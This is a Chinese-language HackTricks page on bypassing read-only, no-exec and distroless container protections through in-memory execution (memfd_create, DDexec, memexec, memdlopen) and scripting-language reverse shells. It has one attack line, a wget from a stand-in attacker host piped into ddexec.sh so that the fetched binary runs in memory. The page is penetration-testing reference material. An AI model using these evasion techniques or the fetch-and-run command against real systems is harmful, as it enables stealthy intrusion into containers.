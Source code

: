 # 绕过文件系统保护：只读 / 禁止执行 / 无发行版

<details>

<summary><strong>从零开始学习AWS黑客攻击直至成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 视频

在以下视频中，您可以找到本页提到的技术的更深入解释：

* [**DEF CON 31 - 探索Linux内存操作以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用DDexec-ng和内存中的dlopen()进行隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 只读 / 禁止执行场景

在容器中，越来越常见的是发现安装了**只读(ro)文件系统保护**的linux机器。这是因为在`securitycontext`中设置**`readOnlyRootFilesystem: true`**就可以轻松运行具有ro文件系统的容器：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为ro，**`/dev/shm`** 仍然是可写的，所以我们并非不能在磁盘上写入任何东西。然而，这个文件夹将会被**挂载为禁止执行保护**，所以如果你在这里下载了一个二进制文件，你**将无法执行它**。

{% hint style="warning" %}
从红队的角度来看，这使得**下载和执行**系统中原本不存在的二进制文件（如后门或枚举器如`kubectl`）变得**复杂**。
{% endhint %}

## 最简单的绕过方法：脚本

注意我提到的是二进制文件，只要解释器在机器内部，你可以**执行任何脚本**，比如如果存在`sh`，就可以执行**shell脚本**，或者如果安装了`python`，就可以执行**python脚本**。

然而，这还不足以执行你的二进制后门或其他你可能需要运行的二进制工具。

## 内存绕过

如果你想执行一个二进制文件，但文件系统不允许，最好的方法是**从内存中执行**，因为**保护措施在那里不适用**。

### 文件描述符 + exec系统调用绕过

如果机器内部有一些强大的脚本引擎，如**Python**、**Perl**或**Ruby**，你可以从内存中下载要执行的二进制文件，将其存储在内存文件描述符（`create_memfd`系统调用）中，这不会受到那些保护的影响，然后调用**`exec`系统调用**，指示**文件描述符作为要执行的文件**。

为此，你可以轻松使用项目[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。你可以传递一个二进制文件，它将生成一个指定语言的脚本，其中包含**压缩和b64编码的二进制文件**，以及**解码和解压缩**到通过调用`create_memfd`系统调用创建的**文件描述符**中的指令，以及调用**exec**系统调用来运行它的指令。

{% hint style="warning" %}
这在其他脚本语言如PHP或Node中不起作用，因为它们没有任何**默认方式调用原始系统调用**，所以不可能调用`create_memfd`来创建**内存文件描述符**以存储二进制文件。

此外，在`/dev/shm`中创建一个**常规文件描述符**也不会起作用，因为你将不被允许运行它，因为**禁止执行保护**将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)是一种技术，允许你**修改自己进程的内存**，通过覆盖其**`/proc/self/mem`**。

因此，**控制正在执行的汇编代码**，你可以编写一个**shellcode**并"变异"进程来**执行任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec**将允许你加载并**执行**你自己的**shellcode**或**任何二进制文件**从**内存**中。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode 守护进程**，所以每次你想要 **运行不同的二进制文件** 时，你不需要重新启动 DDexec，你可以通过 DDexec 技术运行 memexec shellcode，然后 **与这个守护进程通信以传递新的二进制文件来加载和运行**。

你可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 目的相似，[**memdlopen**](https://github.com/arget13/memdlopen) 技术允许一种 **更简单的方式来加载内存中的二进制文件** 以便后续执行。它甚至可以加载带有依赖项的二进制文件。

## Distroless 绕过

### 什么是 distroless

Distroless 容器只包含运行特定应用程序或服务所必需的 **最少组件**，例如库和运行时依赖项，但排除了更大的组件，如包管理器、shell 或系统工具。

Distroless 容器的目标是通过消除不必要的组件并最小化可被利用的漏洞数量，**减少容器的攻击面**。

### 反向 Shell

在 distroless 容器中，你可能甚至找不到 `sh` 或 `bash` 来获取常规 shell。你也不会找到如 `ls`、`whoami`、`id` 等二进制文件... 通常在系统中运行的一切。

{% hint style="warning" %}
因此，你 **无法** 获取 **反向 shell** 或像往常一样 **枚举** 系统。
{% endhint %}

然而，如果受损的容器正在运行例如 flask web，那么 python 就安装了，因此你可以获取 **Python 反向 shell**。如果它运行 node，你可以获取 Node 反向 shell，对于几乎所有的 **脚本语言** 也是如此。

{% hint style="success" %}
使用脚本语言，你可以使用语言的功能 **枚举系统**。
{% endhint %}

如果没有 **只读/无执行** 保护，你可以滥用你的反向 shell 在文件系统中 **写入你的二进制文件** 并 **执行** 它们。

{% hint style="success" %}
然而，在这类容器中，这些保护通常会存在，但你可以使用 **前面的内存执行技术来绕过它们**。
{% endhint %}

你可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 找到如何 **利用一些 RCE 漏洞** 来获取脚本语言 **反向 shell** 并从内存中执行二进制文件的 **示例**。

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> 从零到英雄学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 **HackTricks 中看到你的公司广告** 或 **以 PDF 格式下载 HackTricks**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来 **分享你的黑客技巧**。

</details>
